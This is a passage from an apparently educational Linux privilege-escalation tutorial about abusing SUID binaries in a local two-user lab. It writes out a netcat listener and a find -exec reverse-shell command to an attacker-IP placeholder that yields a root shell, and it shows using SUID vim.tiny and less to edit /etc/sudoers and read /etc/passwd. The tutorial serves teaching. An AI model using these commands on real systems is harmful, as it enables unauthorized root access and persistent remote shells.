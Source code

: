 ```
nc -lvp 4444
```

Cassidy will now be listening for any type of data connection trying
to go through at that point now! Let us use our other terminal and have
Chrono exploit the find command to allow a reverse shell to be made! For
this case I will do the command first and then explain what exactly it
is doing:

```
find /home/Chrono/Trigger -exec bash -p -i > & /dev/tcp/0.0.0.0/4444 0>&1 \;  
```

The beginning of this command is just as normal, `bash` is when things
start to look different, we are calling for a Bash shell from using this
command, the `-p` is for privilege, you will need to use this flag at
times when trying to exploit SUID, if you do not, you may not be able to
run as root. The `-i` creates the interactive shell, `>&` is
signifying where the standard output is going, in this case the
`/dev/tcp` path. `nc` uses tcp connections so this is required to
have this work. Since we are running this locally, `0.0.0.0` is our
IP, but here is where you would put the attacker IP. `4444` is our port
and `0>&1` is the standard input connection.  
  
By running this as Chrono, you should be able to check over onto
Cassidy's terminal and notice we have a bash shell session created. Use
the ID command and you should notice we are root! Reverse shells are
incredibly dangerous for the system but very helpful for attackers as it
establishes a persistence for them, and this can be done whenever an
attacker can receive escalated privileges. When you are done with the
shell use `exit` or ctrl+c to get out of there. We will be moving onto
the next SUID exploit now!

These next two commands have very similar uses, but nevertheless are
quite strong. Firstly, we will be taking a look at the `vim.tiny`
command, `vim.tiny` is yet another text editor we have access too, and
we can make sure that we have SUID privileges by running either command
mentioned earlier again. Because we have SUID access we can get access
to specific read/write access to certain files yet again. We already
know we cant nano into the sudoers file, but how about we try it with
`vim.tiny`:

```  
vim.tiny /etc/sudoers
```

Well look at that! We can edit these private files with anyone on the
box thanks to SUID. However, what if we don't want to edit anything and
essentially `cat` the file? Well thanks to the `less` command we
can! `less` displays large text files in much more digestible fashions
such as pages at a time, rather than one large block of text, and thanks
to SUID we can use it to open up private files, lets try this:  

```
less /etc/passwd
```
